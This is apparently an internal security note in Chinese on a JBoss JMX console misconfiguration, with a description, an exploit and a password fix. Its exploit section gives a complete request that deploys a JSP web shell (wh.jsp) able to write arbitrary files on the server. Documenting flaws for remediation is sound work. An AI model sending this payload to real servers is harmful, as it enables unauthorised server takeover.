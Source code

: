 ### 一 漏洞描述
JBoss是一个基于J2EE的开放源代码应用服务器，代码遵循LGPL许可，可以在任何商业应用中免费使用；JBoss也是一个管理EJB的容器和服务器，支持EJB 1.1、EJB 2.0和EJB3规范。  
但JBoss核心服务不包括支持servlet/JSP的WEB容器，一般与Tomcat或Jetty绑定使用。  
JBoss 由于配置错误，导致后台密码被暴力破解或者没有后台密码导致攻击者可以上传恶意文件直接控制服务器。  

ps: jboss目前使用量较少，内部扫描一圈没有发现jboss

### 二 漏洞利用
```
/jmx-console/HtmlAdaptor?action=invokeOpByName&name=jboss.admin:service=DeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=AAA.war&argType=java.lang.String&arg1=wh&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%><a href="One_OK"></a>&argType=boolean&arg4=True
```
访问 /AAA/wh.jsp

### 三 漏洞修复
添加/修改后台密码

> 参考链接  
> https://blog.csdn.net/xiaobing_122613/article/details/54612468
